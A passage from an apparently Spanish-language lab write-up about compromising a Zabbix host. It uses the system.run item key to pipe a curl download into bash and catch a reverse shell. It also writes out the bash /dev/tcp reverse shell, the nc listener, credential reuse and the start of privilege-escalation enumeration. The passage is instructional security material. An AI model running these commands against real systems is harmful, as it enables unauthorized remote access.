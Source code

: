 Buscamos una que nos ayuder a ejecutar comandos para tener una brecha de una _**reverse shell**_ y entrar al sistema, al final logramos encontrarla:

![Item\_system\_run](system_run_item.png){: .shadow }

Ahora que sabemos que podemos ejecutar comandos en el host, procedemos a aplicar la _reverse\_shell_:

> Reverse shell con **curl** :
{: .prompt-info}

> Creamos un archivo _index.html_ con una reverse en `bash`:

```html
#!/bin/bash
 
bash -i >& /dev/tcp/{nuestra\_IP}/{puerto} 0>&1
```

> Con `python3` y en el mismo directorio compartimos un **servidor http** : `python3 -m http.server 80`

> En paralelo con `nc` nos ponemos en escucha para recibir la shell: `nc -lvp {puerto}`

> Nos dirigimos al apartado para agregar un **_item_ (Configuration -\> Hosts -\> items -\> Create item)** y agregamos un nombre cualquiera y en el apartado del agente seleccionas la key _system.run[command, \<mode\>]_ pero de la siguiente manera: `system.run[curl http://{nuestra_IP} | bash, nowait]`

![System\_run](system_run_key.png){: .shadow}

> Presionamos el botón `_Test_`, luego `_Get value_` y recibiremos la shell como **zabbix**:

![Foothold](foothold.png){: .shadow }

Ahora para manejarnos mejor por consola hacemos un tratamiento rápido de la **TTY**:

![TTY](stty_1.png){: .shadow }
![TTY](stty_2.png){: .shadow }

Buscamos que usuarios existen, intentamos ver la **flag** pero necesitamos ser el usuario **_ipmi\-svc_**, probamos reusar las credenciales del login de `Zabbix` y pa-dentro:

![FLAG](flag.png){: .shadow }

## Privilege Escalation

* * *

Como el usuario _ipmi\-svc_ intentamos listar **binarios con permisos SUID** `find \-perm -4000 2>/dev/null` y **binarios que podamos ejecutar como root** `sudo -l`, pero no encontramos nada interesante

Sabemos que tenemos un agente `Zabbix`, así que intentamos buscar archivos de configuración de podemos leer y conseguimos unas credenciales de una base de dat
os:  
